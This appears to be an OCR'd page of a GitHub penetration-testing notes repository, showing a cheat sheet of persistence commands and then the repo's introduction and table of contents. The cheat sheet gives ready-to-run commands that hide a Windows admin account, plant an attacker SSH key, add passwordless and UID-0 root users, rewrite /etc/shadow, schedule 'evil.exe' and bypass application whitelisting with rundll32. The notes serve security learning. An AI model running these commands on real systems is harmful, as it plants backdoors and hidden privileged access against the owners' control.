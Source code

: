 Hide Newly Created Local administrator

reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList" /t REG_DWORD /v spotless /d 0 /f

Creating SSH Authorized Keys

mkdir /root/.ssh 2>/dev/null; echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQChKCUsFVWj1Nz8SiM01Zw/BOWcMNs2Zwz3MdT7leLU9/Un4mZ7vjco0ctsyh2swjphWr5WZG28BN90+tkyj3su23UzrlgEu3SaOjVgxhkx/Pnbvuua9Qs9gWbWyRxexaC1eDb0pKXHH2Msx+GlyjfDOngq8tR6tkU8u1S4lXKLejaptiz0q6P0CcR6hD42IYkqyuWTNrFdSGLtiPCBDZMZ/5g1cJsyR59n54IpV0b2muE3F7+NPQmLx57IxoPjYPNUbC6RPh/Saf7o/552iOcmVCdLQDR/9I+jdZIgrOpstqSiJooU9+JImlUtAkFxZ9SHvtRbFt47iH7Sh7LiefP5 root@kali' >> /root/.ssh/authorized_keys

Creating Backdoor User w/o Password

echo 'spotless::0:0:root:/root:/bin/bash' >> /etc/passwd

# Rarely needed, but if you need to add a password to the previously created user by using useradd and passwd is not working. Pwd is "kali"
sed 's/!/\$6$o1\.HFMVM$a3hY6OPT\/DiQYy4koI6Z3\/sLiltsOcFoS5yCKhBBqQLH5K1QlHKL8\/6wJI6uF\/Q7mniOdq92v6yjzlVlXlxkT\./' /etc/shadow > /etc/s2; cat /etc/s2 > /etc/shadow; rm /etc/s2

Creating Another root User

useradd -u0 -g0 -o -s /bin/bash -p openssl passwd yourpass rootuser

Generating OpenSSL Password

openssl passwd -1 password 
# output $1$YKbEkrkZ$7Iy/M3exliD/yJfJVeTn5.

Persistent Back Doors

# Launch evil.exe every 10 minutes
schtasks /create /sc minute /mo 10 /tn "TaskName" /tr C:\Windows\system32\evil.exe

Code Execution / Application Whitelist Bypass
Ieframe.dll

rundll32 c:\windows\system32\ieframe.dll,OpenURL c:\temp\test.url

This was inspired by and forked/adapted/updated from Dostoevsky's Pentest Notes.his is my attempt to not suck at pentesting by organizing my learning. I have very briefly covered various concepts related to penetration testing, but more importantly I have linked a large array of resources that you can source deep knowledge from.

Still a work in progress, expect regularly updates.

## Table of Contents

[Chapter 1 - Cheatsheets](/chapter-1.md)

[Chapter 2 - Recon & Enumeration](/chapter-2.md)

